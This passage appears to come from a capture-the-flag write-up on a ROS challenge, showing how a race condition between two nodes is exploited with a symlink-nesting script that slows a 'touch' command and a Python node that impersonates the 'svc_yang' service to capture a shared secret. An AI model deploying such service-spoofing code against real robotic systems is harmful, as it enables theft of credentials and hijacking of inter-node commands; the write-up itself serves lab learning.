 ```python
rospy.wait_for_service('svc_yang')
try:                              
	service = rospy.ServiceProxy('svc_yang', yangrequest)
	response = service(self.secret, 'touch /home/yin/yang.txt', 'Yang', 'Yin')
except rospy.ServiceException as e:
	...
```

This meant, if I could make a node that advertised the **svc_yang** service, I could get the secret they communicated with. The thing is that it needed verification and after verification the `wait_for_service` was always taken by **Yin**. After some time of source code analysis trying to understand the "protocol" they were using, I noticed that **Yang** was sending it's response *after* performing the action. The action that **Yin** was sending to **Yang** was a simple `touch /home/yang/yin.txt`. This was an eureka moment, it was a [[Race Condition|race condition]].

## Exploit race condition

To exploit this [[Race Condition|race condition]] I tried slowing down the `{shell icon} touch` command using a soft link:

```shell title='nestedlink.sh'
#!/bin/bash

# Create nested directories
mkdir -p nested_dir/$(printf "%d/" {1..1000})

# Create symbolic link
ln nested_dir/$(printf "%d/" {1..1000})yin.txt -s yin.txt
```

Also **Yin** had a rate of 0.5 in `{python icon} rospy.Rate()` so my service had to have a faster rate of advertisement to handle **Yang**'s request instead of the original node.

## Get the channel secret 

I wrote a simple script that advertised as the **svc_yang** in a faster rate than **Yin**:

```python title=sniffer.py
import rospy
from yin.srv import yangrequest


def handle_request(req):
    print(req.secret)

def sniffer():
     rospy.init_node('sniffer')
     rospy.Service('svc_yang', yangrequest, handle_request)
     rospy.Rate(0.05)
     rospy.spin()

sniffer()
```
